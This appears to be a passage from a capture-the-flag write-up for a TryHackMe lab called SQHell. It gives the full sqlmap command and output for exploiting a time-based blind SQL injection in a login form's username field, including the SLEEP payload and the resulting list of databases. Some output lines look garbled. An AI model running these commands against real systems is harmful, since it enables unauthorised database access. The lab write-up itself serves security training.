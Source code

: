 ```
[22:55:22] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable.
```

With the information gathered we can tell SQLMap to use the username and password fields, set the database to mysql, and dump the databases it can find:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/login" --method=POST --data="username=admin&password=" -p "username,password" --dbms=mysql --dbs --threads 10
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.5.5#stable}
|_ -| . [,]     | .'| . |
|___|_  ["]_|_|_|__,|_|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:32:24 /2021-06-09/
[22:32:24] [WARNING] provided value for parameter 'password' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:32:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8790 FROM (SELECT(SLEEP(5)))OuEH) AND 'jtUB'='jtUB&password=admin
---
[22:32:25] [INFO] testing MySQL
[22:32:34] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[22:32:34] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[22:32:45] [INFO] adjusting time delay to 1 second due to good response times
[22:32:45] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:32:45] [INFO] fetching database names
[22:32:45] [INFO] fetching number of databases
multi-threading is considered unsafe in time-based data retrieval. Are you sure of your choice (breaking warranty) [y/N] 
[22:32:45] [INFO] resumed: 2
[22:32:45] [INFO] resumed: information_schema
[22:32:45] [INFO] resumed: sqhell_2
available databases [2]:
[*] information_schema
[*] sqhell_2
[22:32:45] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:32:45 /2021-06-09/
```

